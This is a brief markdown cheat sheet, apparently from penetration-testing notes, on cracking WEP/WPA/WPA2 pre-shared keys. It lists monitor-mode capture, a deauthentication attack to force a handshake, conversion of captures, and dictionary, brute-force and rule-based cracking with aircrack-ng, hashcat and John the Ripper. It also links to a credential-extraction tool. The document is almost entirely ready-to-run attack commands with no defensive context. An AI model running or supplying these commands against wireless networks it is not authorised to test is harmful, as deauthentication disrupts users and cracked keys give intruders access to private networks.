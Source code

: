 Cracking WEP/WPA/WPA 2 PSK Authetication

# Cracking WEP/WPA/WPA 2 PSK Authetication

## Capture Handshake

1. airmon-ng start wlan0
2. airodump-ng mon0 --write capture.cap -c 11
3. aireplay-ng --deauth 0 -a bb:bb:bb:bb:bb:bb mon0

Convert pcap files for john and hashcat

/usr/lib/hashcat-utils/cap2hccapx.bin input.pcap output.hccapx [filter by essid] [additional network essid:bssid]
/usr/sbin/hccap2john
/usr/sbin/vncpcap2john
/usr/sbin/wpapcap2john


## Cracking Handshake with Aircrack

- aircrack-ng -w /usr/share/wordlist/fasttrack.txt 0001.cap

## Cracking Handshakes with Hashcat

- hashcat.exe -m 2500 capture.hccapx rockyou.txt (Dictionary Attack)
- hashcat.exe -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d (Brute-Force)
- hashcat.exe -m 2500 -r rules/best64.rule capture.hccapx rockyou.txt (Rule-Based)

## Cracking Handshakes with John The Ripper

Did you run hccap2john?

- john --format=wpapsk --wordlist=/usr/share/wordlists/rockyou.txt crackmecap
- john --format=wpapsk-opencl --wordlist=/usr/share/wordlists/rockyou.txt crackmecap



Other Resources: 

https://github.com/lgandx/PCredz 